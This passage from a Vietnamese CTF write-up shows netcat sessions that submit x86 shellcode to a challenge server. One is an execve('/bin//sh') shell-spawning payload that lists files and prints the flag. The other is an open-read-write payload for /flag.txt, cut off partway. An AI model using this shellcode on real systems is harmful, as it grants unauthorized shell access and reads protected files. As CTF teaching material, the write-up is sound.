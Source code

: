 ```sh
alter ^ Sol in ~/CTFs/VSL/Present
$ nc 61.14.233.78 10004
Enter your assembly code (type 'end' to finish):
section .text
    global _start

_start:
    xor eax, eax
    push eax
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    mov eax, 11
    int 0x80

end
[!] Compiling and running the assembly code...
ls
entry.sh
main.py
cd ..
ls
app
bin
boot
dev
etc
flag.txt
<...>
cat flag.txt
VSL{d0d73fb9a4d7e40b0cc6870fc2c4ba67}
```

Ngoài ra mình có thử shellcode `orw` xem nó có hoạt động không:

```sh
alter ^ Sol in ~/CTFs/VSL/Present
$ nc 61.14.233.78 10004
Enter your assembly code (type 'end' to finish):
section .data
    filename db '/flag.txt', 0

section .text
    global _start

_start:
    ; open
    xor eax, eax
    mov ebx, filename
    xor ecx, ecx
    mov al, 5
    int 0x80

    ; read
    mov ebx, eax
    xor eax, eax
    mov ecx, esp
    mov edx, 100
    mov al, 3
    int 0x80

    ; write
```